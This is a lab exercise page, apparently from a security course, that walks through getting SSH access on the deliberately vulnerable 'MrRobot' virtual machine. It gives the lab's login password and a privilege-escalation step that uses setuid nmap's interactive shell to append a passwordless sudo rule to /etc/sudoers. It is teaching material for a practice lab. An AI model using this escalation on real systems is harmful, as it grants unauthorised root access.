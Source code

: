 ```yaml
---
layout: page
title: Getting SSH Access on the MrRobot Virtual Machine
---
```



1. On your Kali system, start a shell by hitting `Alt-F2`, then typing `qterminal ` and hitting `Enter`.

2. Launch the `virt-manager` VirtualMachine Manager, make sure the `mrrobot` VM is running.

3. Next right click on the `mrrobot` VM and select "Open" button at the bottom of the list to open a console on the `mrrobot` virtual machine:

    ![MrRobot VirtualMachine Manager Console](/assets/img/mrrobot-virt-manager-console.png)

4. Log in as `robot` using the password `abcdefghijklmnopqrstuvwxyz`:

    ```shell
    robot
    abcdefghijklmnopqrstuvwxyz
    ```

5. If you've completed [the Set-UID Privelege Escalation exercise](/exercises/mrrobot-privesc/), then skip to step 10 below that starts with "Use sudo to run..."

6. Unless you've completed [the first MrRobot attack exercise](/exercises/mrrobot-privesc/), you'll need to complete the next three steps to give the `robot` user `sudo` access.

7. Start `nmap`:

    ```shell
    /usr/local/bin/nmap --interactive
    ```

8. Add our `robot` user to the sudoers file:

    ```shell
    ! echo "robot    ALL=(ALL) NOPASSWD:ALL" >>/etc/sudoers
    ```

9. Now exit the `nmap` shell:

    ```shell
    exit
    ```

10. Use sudo to run as the `root` user, using the `root` user's normal environment:

    ```shell
    sudo su -
    ```

11. Create a directory that `sshd` requires:

    ```shell
    mkdir /var/run/sshd
    ```

12. Start the `sshd` program:

    ```shell
    /usr/sbin/sshd -D
    ```
